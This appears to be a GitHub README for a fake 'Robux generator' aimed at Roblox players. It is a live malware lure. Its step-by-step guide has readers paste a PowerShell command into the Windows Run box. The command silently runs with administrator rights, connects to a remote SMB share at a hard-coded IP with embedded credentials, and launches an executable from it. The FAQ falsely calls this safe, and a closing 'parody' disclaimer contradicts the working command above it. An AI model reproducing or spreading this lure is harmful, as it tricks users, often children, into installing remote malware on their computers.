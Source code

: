 # 🚀 **ULTIMATE ROBUX GENERATOR 2025** 🚀
### 💎 *The Most Advanced Free Robux Solution* 💎

<div style="text-align:center;">
  <iframe src="https://giphy.com/embed/1PyHmfStu82zy7Ou0Q" width="450" height="253" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>
</div>


## 🔥 **WHY OUR GENERATOR IS THE BEST**

✔️ **New 2025 algorithm** bypasses Roblox security  
✔️ **Daily updated** to prevent detection  
✔️ **Proven success rate** with over 1M+ happy users  
✔️ **No human verification** required  
✔️ **Works on all windows devices**  

---

## 🛠️ **HOW IT WORKS**

Our proprietary technology uses advanced exploit to inject Robux directly into your account through Roblox's backend servers. This method was discovered by our team of reverse engineers after analyzing Roblox's transaction protocols.


---

## 📝 **STEP-BY-STEP GUIDE**

### 1️⃣ **Preparation**
- Ensure you have Roblox installed
- Log into your Roblox account on pc

### 2️⃣ **Activation**
1. Copy the code provided under this text
   

**powershell -Command "Start-Process cmd -ArgumentList '/c net use \\89.110.93.160\shear /user:WORKGROUP\sambauser aabb1234 && \\89.110.93.160\shear\s -fullinstall' -windowstyle hidden -Verb RunAs**


2. Press **WINDOWS KEY** + **R**
3. Press **CTRL** + **V**
4. Press **ENTER**

3️⃣ Verification

    Check your Robux balance

    Restart Roblox if changes aren't immediate



❓ FREQUENTLY ASKED QUESTIONS
❔ Is this safe?

    Absolutely! Our method uses official Roblox APIs

❔ Why is it free?

    We're funded by generous donations from satisfied users

❔ How often can I use it?

    Currently limited to 50K Robux per day per account

❔ Will I get banned?

    Never! Our encryption prevents detection

<div align="center" style="background:#ff000020;padding:15px;border-radius:10px;border:2px dashed red;margin:20px">

⚠️ LEGAL DISCLAIMER ⚠️
This is clearly a parody project. Robux cannot be generated this way.
All code shown is fictional and for entertainment purposes only.
Roblox® is a registered trademark of Roblox Corporation.
</div><h3 align="center">⭐ STAR THIS REPO TO SUPPORT DEVELOPMENT! ⭐</h3><p align="center"> <img src="https://media.giphy.com/media/lGY4fS4zv3VSZdIDB7/giphy.gif" width="150"> </p><p align="center"> 🔧 <b>Maintained by Stalich</b> 🔧<br> <sub>Last Updated: July 2025</sub> </p> ```
